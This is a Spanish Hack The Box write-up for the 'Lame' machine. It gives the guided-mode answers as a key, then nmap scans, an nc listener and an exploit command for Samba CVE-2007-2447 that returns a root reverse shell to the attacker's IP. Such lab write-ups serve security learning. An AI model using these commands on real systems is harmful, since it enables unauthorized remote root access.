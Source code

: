 ```yaml
---
title: Writeup lame - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - lame
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina lame en Hack The Box.
keywords:
  - writeup lame
  - hack the box lame
  - resolución máquina lame
  - lame hack the box
  - htb lame
---
```

-----
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Lame)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=RiQEZlUoKvk)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=2Fo46DUSyvo)

---

#easy #linux #nmap #ping #CVE-2007-2447 

--------
# Guided Mode 

1)¿Cuántos de los 1000 puertos TCP principales de nmap están abiertos en el host remoto?
	4

2)¿Qué versión de VSFTPd se está ejecutando en Lame?
	2.3.4

3)Hay un famoso backdoor en VSFTPd versión 2.3.4, y un módulo Metasploit para explotarlo. ¿Funciona ese exploit aquí?
	No

4)¿Qué versión de Samba se está ejecutando en Lame? Indique los números hasta "-Debian" pero sin incluirlo.
	3.0.20

5)¿Qué CVE de 2007 permite la ejecución remota de código en esta versión de Samba a través de metacaracteres de shell que implican la función SamrChangePassword cuando la opción «username map script» está habilitada en smb.conf?
	CVE-2007-2447

6)La explotación de CVE-2007-2447 devuelve un intérprete de comandos como ¿qué usuario?
	root

*Las dos preguntas anteriores eran las flags*. Las siguientes preguntas son adicionales

9)Exploraremos un poco más allá de conseguir un shell root en la caja. Mientras que la escritura oficial no cubre esto, puedes mirar la escritura de 0xdf para más detalles. Con una shell de root, podemos ver por qué falló el exploit VSFTPd. Nuestro escaneo nmap inicial mostró cuatro puertos TCP abiertos. Ejecutando netstat -tnlp muestra muchos más puertos escuchando, incluyendo algunos en 0.0.0.0 y la IP externa de la caja, por lo que deberían ser accesibles. ¿Qué debe estar bloqueando la conexión a estos puertos?
	firewall

10)Cuando se activa el backdoor VSFTPd, ¿qué puerto empieza a escuchar?
	6200

11)Cuando se activa el backdoor VSFTPd, ¿el puerto 6200 empieza a escuchar en Lame?
	yes

##### Las preguntas adicionales por lo que entiendo segun el [writeup de 0xdf que nos da htb](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd) dice que si no estamos como root el firewall nos bloquea la mayoria de los puertos


-----------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.3
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.10.3 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN target
```

![[Lame1.png]]
![[Lame2.png]]

![[Lame3.png]]
![[Lame4.png]]
*TTL:* Maquina Linux
*Puertos:*
`21` FTP
`22` SSH
`445` SMB

-------
# Explotacion [[CVE-2007-2447]]

Al ser una version vieja de smb 3.0.20 Debian como vimos en el escaneo de NMAP, podemos probar el [[CVE-2007-2447]]

[Exploit hecho por amriunix](https://github.com/amriunix/CVE-2007-2447)(Para python2.7)

Clonamos el repositorio en nuestra maquina ``git clone https://github.com/amriunix/CVE-2007-2447.git``
Instalamos la libreria pysmb con el comando ``pip install pysmb``

Entramos a la carpeta del repositorio y solamente nos falta ejecutar el exploit mientras estamos en escucha con [[nc -nlvp 443]]
```
python2.7 usermap_script.py IpMaquinaVictima PuertoMaquinVictima IpDeNuestraMaquina PuertoDeNuestraMaquina
python2.7 usermap_script.py 10.10.10.3 445 10.10.16.10 443
```
![[Lame10.png]]

Una vez ejecutado el exploit ya estamos adentro como *root*

y nada mas nos queda catear las flags para terminar la maquina
![[Lame8.png]]

-------
# Notas

1)¿Cuántos de los 1000 puertos TCP principales de nmap están abiertos en el host remoto?
	4
		*Puertos:* 21,22,139,445
		Esto lo vimos con el comando `nmap --top-ports 1000 --open -sS -vvv -n -Pn 10.10.10.3 -oG allPorts` (le saque el `--min-rate 5000` por que no me aparecian todos los puertos)
